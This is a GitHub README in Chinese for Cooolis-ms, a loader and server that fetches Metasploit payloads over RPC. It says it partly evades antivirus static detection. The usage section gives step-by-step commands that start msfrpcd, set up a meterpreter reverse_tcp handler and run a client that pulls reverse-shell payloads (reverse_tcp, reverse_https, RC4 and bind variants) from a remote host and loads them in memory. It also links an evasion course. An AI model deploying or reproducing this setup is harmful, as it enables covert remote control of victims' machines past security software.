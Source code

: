# Cooolis-ms

![README](./Pic/view-1.png)

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

加载器执行流程：

1. 连接Cooolis-Server
2. Cooolis-Server连接Metasploit RPC服务端
3. 取回Payload然后发送回加载器


核心技术：

- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## 该项目的优点

- 体积小（<600KB）
- 支持Metasploit所有Payload
- 参数设置简单
- 单文件
- 架构分离

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)
- [静态恶意代码逃逸（第七课）](https://payloads.online/archivers/2020-10-23/1)
- [静态恶意代码逃逸（第八课）](https://payloads.online/archivers/2020-11-29/1)
- [静态恶意代码逃逸（第九课）](https://payloads.online/archivers/2020-11-29/2)

## 如何安装


### 选择一 > Docker部署（推荐）


Bilibili:

[![China Bilibili](./img/2020-09-09-23-20-03.png)](https://www.bilibili.com/video/BV1P54y1m7JF/ "China Bilibili")


```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms/Docker
$ docker-compose up -d
```

默认监听端口：8899

### 选择二 > 源码部署

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## 如何使用

**如果你使用了Docker进行部署，请直接从第三步开始。**

假设这是我的VPS： 10.20.56.41

### 第一步 启动Metasploit RPC服务端

**启动Metasploit RPC服务端：**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```

![](img/2020-08-05-11-53-35.png)

### 第二步 启动Cooolis-ms服务端

使得它连接到RPC，并且监听一个端口，用来发送载荷：

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```

![](img/2020-08-05-11-54-24.png)

### 第三步 配置Metasploit监听器


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```

![](img/2020-08-05-11-57-03.png)

### 第四步 启动Cooolis-ms客户端


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -o LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```

![](img/2020-08-05-12-08-07.png)

Q&A : [是否支持RC4加密的Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -o LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -o LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -o RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* 其他... 自由发挥

**提示：**

1. `-o`参数后的值需要和msf的监听器配置一致。
2. 由于本项目依赖[MemoryModule](https://github.com/fancycode/MemoryModule)这个开源项目，因此只能支持DLL格式的PAYLOAD。需要在`-o`参数后添加`Format=dll`


## 关于其他

如果你觉得这个项目不错，请给我一个Star～


## issue

[我要提交建议或问题](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
